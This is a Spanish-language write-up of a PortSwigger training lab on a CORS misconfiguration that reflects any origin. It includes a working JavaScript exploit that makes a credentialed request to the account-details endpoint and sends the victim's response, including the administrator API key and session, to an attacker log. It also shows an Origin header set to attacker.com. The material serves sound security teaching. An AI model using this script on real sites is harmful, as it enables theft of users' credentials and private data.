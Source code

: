 # Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un sitio de compras online:
![image](https://github.com/user-attachments/assets/27097d64-5cfd-42ac-882e-a8d2e4704b4f)

Tenemos que acceder a algun endpoint que nos permita visualizar nuestra API key, por lo que procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/6aac9bd4-4886-4833-a96d-762e03af1942)

Dashboard del usuario `wiener`:
![image](https://github.com/user-attachments/assets/08d91dd3-eace-4c2d-a73d-adb1b5e7426b)

Notamos que además tramita un endpoint interesante:
![image](https://github.com/user-attachments/assets/3d1cff9f-aaa0-4f4a-a5b2-a3e2c427323b)

El endpoint `/accountDetails` muestra una configuración vulnerable a CORS con reflexión de origen, y la imagen demuestra claramente que la explotación es posible. 
La solicitud GET a `/accountDetails` devuelve información sensible del usuario autenticado:
```json
{
  "username": "wiener",
  "email": "",
  "apikey": "KNOtNNLqwPrDs2yrDB1WSo909dr1VGaE",
  "sessions": [...]
}
```
Y el encabezado de respuesta:
```http
Access-Control-Allow-Credentials: true
```

Esto permite que el navegador envíe cookies en solicitudes cross-origin.

Esto es inseguro si el servidor también refleja el origen (`Origin`) sin validación.

Para validar esto, enviamos esta solicitud al `Repeater` y añadimos una nueva cabecera `Origin: https://attacker.com`, la respuesta incluirá:
```http
Access-Control-Allow-Origin: https://attacker.com
```

Realizamos la prueba, esta nueva captura confirmá que el sitio es vulnerable a una explotación CORS con reflexión de origen:
![image](https://github.com/user-attachments/assets/5231fe33-2b1f-4d25-a0c2-ec335fa74439)

- El servidor está reflejando dinámicamente el origen proporcionado (https://attacker.com).

- Y permite el uso de cookies/autenticación (Access-Control-Allow-Credentials: true).

Un atacante puede desde su propio dominio malicioso (attacker.com) hacer una solicitud autenticada con cookies del usuario víctima a `/accountDetails`, y robar la API key y otros datos privados.

Procedemos a utilizar un script:

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = function() {
        location = '/log?data=' + this.responseText;
      };
      req.open('GET', 'https://0af80099040020e7ec49840800a3004f.web-security-academy.net/accountDetails', true);
      req.withCredentials = true;
      req.send();
    </script>
  </body>
</html>

```

Simulamos levantar nuestro servidor de atacante accediendo al botón `Go to exploit server`, ahí pegamos nuestro script que simula el desarrollo de una página que produce el exploit. Primero hacemos click en `Store` y luego en `Send exploit to victim`.

Accedemos a los logs mediante el botón `Access log:
![image](https://github.com/user-attachments/assets/d3f13ff5-7bf3-4a48-809b-4235e4025c5f)

Obtenemos la información del usuario administrator:
```http
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5%22,%20%20%22sessions%22:%20[%20%20%20%20%22imTj0ZUcHiYgBJZHW1O7PrOQLZkA4Qyk%22%20%20]}
```









